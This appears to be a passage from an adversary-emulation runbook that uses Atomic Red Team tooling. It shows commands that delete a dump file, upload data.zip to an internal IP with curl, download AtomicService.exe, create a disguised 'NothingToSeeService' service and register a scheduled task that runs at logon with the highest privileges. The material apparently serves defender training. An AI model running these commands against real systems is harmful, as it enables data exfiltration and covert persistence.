 ```
Remove-Item c:\Users\Public\1.dmp

dir C:\Users\Public

curl.exe -F 'file=@C:\Users\Public\data.zip' http://172.31.7.131:1314/upload
```

NOTE: leave `ISE` open or hard close so the auto-save stays available as
a forensic artifact.


## Install persistence

```
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1543.003/bin/AtomicService.exe" -OutFile AtomicService.exe
PS C:\Users\winsupport\Downloads> sc.exe create NothingToSeeService binPath= .\AtomicService.exe start=auto  type=own


$Action = New-ScheduledTaskAction -Execute "calc.exe"
$Trigger = New-ScheduledTaskTrigger -AtLogon
$User = New-ScheduledTaskPrincipal -GroupId "BUILTIN\Administrators" -RunLevel Highest
$Set = New-ScheduledTaskSettingsSet
$object = New-ScheduledTask -Action $Action -Principal $User -Trigger $Trigger -Settings $Set
Register-ScheduledTask AtomicTask -InputObject $object
```
